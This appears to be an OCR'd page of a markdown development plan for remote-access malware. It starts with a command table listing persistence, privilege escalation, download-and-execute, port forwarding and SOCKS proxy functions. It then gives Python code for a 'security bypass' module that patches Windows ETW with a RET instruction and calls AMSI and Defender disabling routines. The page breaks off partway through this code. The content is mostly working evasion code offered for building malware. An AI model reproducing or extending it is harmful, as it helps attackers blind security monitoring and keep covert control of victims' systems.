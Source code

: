 ```python
            'migrate': elite_migrate,
            'persistence': elite_persistence,
            'unpersistence': elite_unpersistence,
            'escalate': elite_escalate,
            'download_exec': elite_download_exec,
            'upload_exec': elite_upload_exec,
            'port_forward': elite_port_forward,
            'socks_proxy': elite_socks_proxy
        }
```

---

## PHASE 2: SECURITY BYPASS SYSTEMS (Week 4)

### 2.1 ETW and AMSI Patching

**File:** Create `Core/security_bypass.py`

```python
import ctypes
import sys
from ctypes import wintypes

class SecurityBypass:
    def __init__(self):
        self.ntdll = ctypes.windll.ntdll
        self.kernel32 = ctypes.windll.kernel32
        self.original_bytes = {}
    
    @contextmanager
    def patch_all(self):
        """Context manager to patch and restore security monitoring"""
        try:
            self.patch_etw()
            self.patch_amsi()
            self.disable_defender_monitoring()
            yield
        finally:
            self.restore_all()
    
    def patch_etw(self):
        """Disable Event Tracing for Windows"""
        if sys.platform != 'win32':
            return
        
        try:
            # Get EtwEventWrite address
            etw_func = ctypes.windll.ntdll.EtwEventWrite
            
            # Save original bytes
            old_protect = wintypes.DWORD()
            self.kernel32.VirtualProtect(
                etw_func, 1, 0x40, ctypes.byref(old_protect)
            )
            
            # Read original byte
            original = ctypes.c_ubyte.from_address(ctypes.addressof(etw_func))
            self.original_bytes['etw'] = original.value
            
            # Patch with RET instruction (0xC3)
            ctypes.c_ubyte.from_address(ctypes.addressof(etw_func)).value = 0xC3
            
```